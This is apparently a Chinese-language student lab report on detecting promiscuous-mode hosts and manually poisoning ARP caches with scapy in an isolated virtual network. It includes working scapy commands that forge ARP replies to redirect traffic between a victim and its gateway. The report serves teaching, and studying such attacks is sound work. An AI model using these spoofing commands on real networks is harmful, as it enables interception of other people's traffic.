# 第四章：网络监听


实验网络拓扑：



网络中节点的基本信息如下：

| 主机名称      | 网卡   | IP地址         | MAC地址           |
| ------------- | ------ | -------------- | ----------------- |
| kali-attacker | eth0   | 172.16.111.150 | 08:00:27:71:0e:38 |
| ubuntu-victim | enp0s9 | 172.16.111.145 | 08:00:27:1b:cf:38 |
| gateway       | enp0s9 | 172.16.111.1   | 08:00:27:f2:df:5d |


攻击者主机上已经安装 `scapy` 。


## 实验一：检测局域网中的异常终端


在受害者主机上检查 `混杂模式` 是否开启。

```bash
ip link show enp0s9
```

能看到受害者主机 enp0s9 网卡的混杂模式并没有开启，没有 `PROMISC` 字样。




在攻击者主机上开启 `scapy` 。




使用 `promiscping` 命令向受害者主机发送 `who-has` ARP 数据包。

```bash
pkt=promiscping("172.16.111.104")
```



发现没有收到数据包。


回到受害者主机，将它的网卡改成混杂模式。

```bash
sudo ip link set enp0s9 promisc on
```

观察受害者网卡情况。



此时再次在攻击者主机上构造 `who-has` ARP 包。发送，观察结果。



此时发出的 ARP 包有了一个回应。

关闭受害者网卡的混杂模式。

```bash
sudo ip link set enp0s9 promisc off
```




## 实验二：手工单步“毒化”目标主机的 ARP 缓存


在 `攻击者主机` 上构造一个 `ARP` 请求。

```bash
arpbroadcast = Ether("ff:ff:ff:ff:ff:ff")/ARP(op = 1, pdst="172.16.111.1")
```

查看构造的 `ARP` 请求包。

```bash
arpbroadcast.show()
# ###[ Ethernet ]###
#  dst= ff:ff:ff:ff:ff:ff
#  src= 08:00:27:71:0e:38
#  type= ARP
# ###[ ARP ]###
#     hwtype= 0x1
#     ptype= IPv4
#     hwlen= None
#     plen= None
#     op= who-has
#     hwsrc= 08:00:27:71:0e:38
#     psrc= 172.16.111.150
#     hwdst= 00:00:00:00:00:00
#     pdst= 172.16.111.1
```



用 `srp(arpbroadcast,timeout=2)` 命令发送 ARP 包。从返回的包中获取网关的 MAC 地址：



可知网关的 MAC 地址是 `08:00:27:f2:df:5d ` 。

接着伪造网关的 `ARP` 响应包发给受害者主机。

```python
arpspoofed=Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.145",hwdst="08:00:27:81:0e:38")
sendp(arpspoofed)
```



查看受害者主机上网关的 `mac` 地址，已经改变。



现在开始恢复受害者主机上的 `arp` 表。在攻击者主机上冒充网关给受害者主机发送 `arp` 包。



这里，网关的 `ip` 地址和 `mac` 地址是相对应的。

在受害者主机上查看 `arp` 对应情况



可以看到 `arp` 已经恢复。

现在伪装成受害者向网关发送请求。由于原本网关上的 ARP 表是正常的，所以尝试投毒。



```
>>> restorepkt1=Ether()/ARP(op=2,pdst="172.16.111.1",hwdst="08:00:27:f2:df:5d",psrc="172.16.111.145",hwsrc="08:00:27:2a:4b:04")
>>> sendp(restorepkt1,count=100,inter=0.2)

```

此时可以看到网关的 `arp` 表 受害者的 `mac` 地址已经变成攻击者随意写的 `mac` 地址。


更改成功。


## 问题与解决方法


1.  `send` 和 `sendp` 傻傻分不清楚。

   `send` 是三层的指令，`sendp` 是二层的指令。用 `send` 发送构造的二层的包会让 `arp` 表投毒无法正常工作。使用 `sendp` 发送后恢复正常。


## 参考资料

- [实验 · 网络安全 ](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

- [scapy.contrib.send — Scapy 2.5.0 documentation](https://scapy.readthedocs.io/en/latest/api/scapy.contrib.send.html)

- [Search — Scapy 2.5.0 documentation](https://scapy.readthedocs.io/en/latest/search.html?q=sendp&check_keywords=yes&area=default#)
